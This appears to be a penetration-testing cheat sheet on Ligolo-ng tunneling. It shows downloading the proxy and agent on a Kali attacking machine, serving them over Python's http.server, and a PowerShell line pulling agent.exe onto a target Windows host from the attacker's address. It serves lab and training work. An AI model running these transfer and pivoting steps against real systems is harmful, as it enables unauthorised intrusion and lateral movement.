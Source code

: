 # Ligolo-ng

## Prerequisites

Download the agent for [Windows](https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.1/ligolo-ng_agent_0.5.1_windows_amd64.zip) (target machine is a Windows client):

Download the [proxy file for Linux](https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.1/ligolo-ng_proxy_0.5.1_linux_amd64.tar.gz) which will be run on the attacking machine:

```bash
┌──(kali㉿kali)-[~]
└─$ wget <https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.1/ligolo-ng_proxy_0.5.1_linux_amd64.tar.gz>

┌──(kali㉿kali)-[~]
└─$ wget <https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.1/ligolo-ng_agent_0.5.1_windows_amd64.zip>

┌──(kali㉿kali)-[~]
└─$ unzip ligolo-ng_agent_0.5.1_windows_amd64.zip

┌──(kali㉿kali)-[~]
└─$ tar -xf ligolo-ng_proxy_0.5.1_linux_amd64.tar.gz

```

Unzip the archives and host the files via python’s `http.server` module.

```bash
wget <https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.1/ligolo-ng_proxy_0.5.1_linux_amd64.tar.gz>
wget <https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.1/ligolo-ng_agent_0.5.1_windows_amd64.zip>
unzip ligolo-ng_agent_0.5.1_windows_amd64.zip
tar -xf ligolo-ng_proxy_0.5.1_linux_amd64.tar.gz

```

```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (<http://0.0.0.0:8000/>) ...

```

## Transfer agent.exe to the Target

Transfer `agent.exe` to the target Windows machine (dual-homed host):

```powershell
PS C:\\\\Users\\\\Administrator\\\\Desktop> iwr <http://192.168.45.205:8000/agent.exe> -o agent.exe

```

